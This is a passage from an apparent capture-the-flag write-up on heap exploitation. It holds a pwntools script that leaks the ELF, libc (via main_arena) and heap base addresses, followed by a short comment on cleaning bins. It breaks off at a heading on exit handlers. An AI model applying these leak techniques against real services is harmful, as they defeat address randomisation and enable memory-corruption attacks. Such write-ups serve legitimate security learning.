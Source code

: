 ```python
# ===============
# ELF BASE LEAK
# ===============
io.sendline(b'7')
io.recvuntil(b'0x')
win = int(io.recvline().strip(), 16) 
elf.address = win - 0x159f

# ===============
# LIBC BASE LEAK
# ===============
alloc(0, 0x500)
alloc(1, 0x10)
free(0)

view(0)
leak = io.recvline().strip()
main_arena = u64(leak.ljust(8, b'\x00')) 
libc.address = main_arena - 0x1d1cc0
alloc(0, 0x500) # clean bins

# ===============
# HEAP BASE LEAK
# ===============
alloc(2, 0x10)
free(1)

view(1)
leak = u64(io.recvline().strip().ljust(8, b'\x00'))
heap = leak << 12
alloc(2, 0x10)  # clean bins
```

I like to start the exploit with a fresh bins, so after the leaking the addresses, I like to allocate the chunks again. Below is what we have before exploit

<figure><img src="../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

#### how exit handler works
